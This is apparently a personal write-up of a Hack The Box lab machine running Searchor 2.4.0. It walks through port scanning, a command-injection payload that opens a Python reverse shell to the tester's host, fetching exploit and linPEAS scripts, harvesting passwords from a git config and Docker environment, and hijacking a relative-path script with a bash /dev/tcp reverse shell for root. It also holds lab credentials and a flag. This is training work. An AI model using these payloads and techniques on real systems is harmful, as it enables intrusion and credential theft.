## Testing

Start: 2026-09-08, 11:30

IP:

```
10.129.228.217
```

----

ports

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.228.217 -oG network/nmap_ports.txt
```



HTTP, SSH

service

```
sudo nmap -sCV -p22,80 -vv --min-rate=5000 10.129.228.217 -oN network/nmap_service.txt
```



OpenSSH 8.9p1

Linux. Ubuntu

Domain: `searcher.htb`

Add IP - Domain to /etc/hosts



HTTP - Web

Browsing: http://searcher.htb/



Searching functionality

Select engine and search query

Noticing technologies at the button


Flask and Searchor 2.4.0

Opening burpsuite to check funtionality first

Selecting localhost / 127.0.0.1 as engine but `Invalid engine!`

Browsing for Searchor 2.4.0 technology

Right away see a exploit for this exact version: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md

It seems a unauthenticated attacker can inject system commands to call a reverse shell with this code:
(added my local IP and port)

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.204',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Start listener

```
nc -nlvp 9001
```

Pasting code, CTRL + U to URL encode



Forward ->

`Invalid engine!`, no connection.

Trying another PoC, this one automated with bash script: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh

```
wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/refs/heads/main/exploit.sh
```

Set Listener

Run it
```
./exploit.sh searcher.htb 10.10.14.204 9001
```



Got the shell

Context

```
whoami && ifconfig | grep inet
```



Connected as `svc` account to the target system `busqueda` with IP:  10.129.228.217

user.txt flag:



`a9caf97b24466464adca92c8e65d7f22`

----
Privilege Escalation

Upgrading shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

CTRL + Z
fg, ENTER

```
stty rows 31 cols 121
```

```
export TERM=xterm
```
---
Uploading linPEAS.sh to target system

Starting python http server on attacker system serving linPEAS.sh file

Calling it from target shell

```
curl -O http://10.10.14.204:8000/linpeas.sh
```



chmod +x 
Run it

```
./linpeas.sh
```

Host info: Ubuntu 22.04.2, jammy

Excesive amount of information I dont understand.

Im mostly clueless with linux privilege escalation

Referenced: https://www.youtube.com/watch?v=5dHgfviJWmg Min 15

Listing internal ports

```
ss -lntp
```



See SQL port running

Navigating apache web server directory

```
cd /etc/apache2/sites-enabled
```

There is a `000-default.conf` file

```
cat 000-default.conf
```



See a gitea subdomain running on 3000

Add it to /ect/hosts



Navigate to the web source /var/www/app

```
cd /var/www/app
```

Find the .git

List .git, see config

```
cat config
```



See credential for gitea
`cody:jh1usoih2bkjaspwe92`

Browsing http://gitea.searcher.htb/

Can access as cody



Check `sudo -l` as `svc` reusing discovered password

```
sudo -l -S
```



Can run python3 on `/opt/scripts/system-checkup.py`

Running it

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py
```

`Sorry, user svc is not allowed to execute '/usr/bin/python3 /opt/scripts/system-checkup.py' as root on busqueda.`

Adding asd

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py asd
```

(`asd` is garbage, just something so the script functions since it spects an argumet (`*`))



Can run this 3 arguments

Using `docker-ps` and  `docker-inspect` to list and inspect docker containers

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
```



Two containers. One for gitea (960873171e2e) and other for mysql (f84a6b33fb5a)

Checking https://docs.docker.com/reference/cli/docker/inspect/ for syntax



```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```



Print it formated

```
echo -n '{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}' | jq .
```



See GITEA__database__PASSWD, password: `yuiu1hoiu4i5ho1uh`

Using this password to login as administrator to gitea



Password is reause. Can read the scripts

`svc` can run `system-checkup.py` as root.



The full-checkup mode for the `system-checkup.py` script does not specify the full path from root.

Creating a "malicious clone" of `full_checkup.sh` in a directory where `svc` has write access. Change dir to `/dev/shm` and create it.

```
#!/bin/bash

bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1' 
```

Running `system-checkup.py` specifying `full-checkup` option.

```
chmod +x full-checkup.sh
```

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

```
jh1usoih2bkjaspwe92
```

Command not found



The file is there



Try and try, add the script again, no progress. Doing the same as reference. Not working for me. (see post-testing for completion)

End: 2026-09-08, 13:40

----

##### Post Testing

**Why the final step didnt work**
 1. **Typo on the "clone" script (`bach` instead of `bash`)** <-----

Also: SSH open, discovered `cody` password is reused for `svc`. I probably could have SSH'd in directly as `svc`  for a clean interactive shell.

Principiant errors... now learned. Will not happen again.

---
###### Resolving it post-testing

```
ssh svc@10.129.228.217
```

Change dir to /dev/shm
Create the "clone" script and give execution permission.

```
chmod +x full-checkup.sh
```

Set listener

```
nc -nlvp 9001
```

Run privileged script in the current directory

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Context

```
whoami && ifconfig | grep inet
```



root flag



---
###### Time frame

Start: 2026-09-08, 11:30

End: 2026-09-08, 13:40

Total time testing: 2h 10min

###### Sources
- Docker command syntax: https://docs.docker.com/reference/cli/docker/inspect/ 
- IppSec video reference: https://www.youtube.com/watch?v=5dHgfviJWmg 
- Searchor-2.4.0 exploit: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh | https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md
